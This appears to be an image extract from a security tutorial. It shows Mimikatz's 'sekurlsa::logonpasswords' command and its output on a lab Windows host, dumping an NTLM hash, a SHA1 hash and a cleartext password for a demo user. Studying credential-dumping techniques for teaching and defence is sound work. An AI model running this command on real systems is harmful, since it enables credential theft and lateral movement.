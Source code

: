 ```
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 546750 (00000000:000857be)
Session           : Interactive from 1
User Name         : Hacker1
Domain            : DESKTOP-AB3A4NG
Logon Server      : DESKTOP-AB3A4NG
Logon Time        : 2/16/2021 8:17:19 PM
SID               : S-1-5-21

        msv :

         [00000003] Primary

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

      ➊ * NTLM     : f773c5db7ddebefa4b0dae7ee8c50aea

      ➋ * SHA1     : e68e11be8b70e435c65aef8ba9798ff7775c361e

        tspkg :

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

      ➌ * Password : trustno1!

        wdigest :

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

         * Password : (null)

        kerberos :

         * Username : Hacker1

         * Domain   : DESKTOP-AB3A4NG

         * Password : (null)

        ssp :

        credman :

        cloudap :

...
```
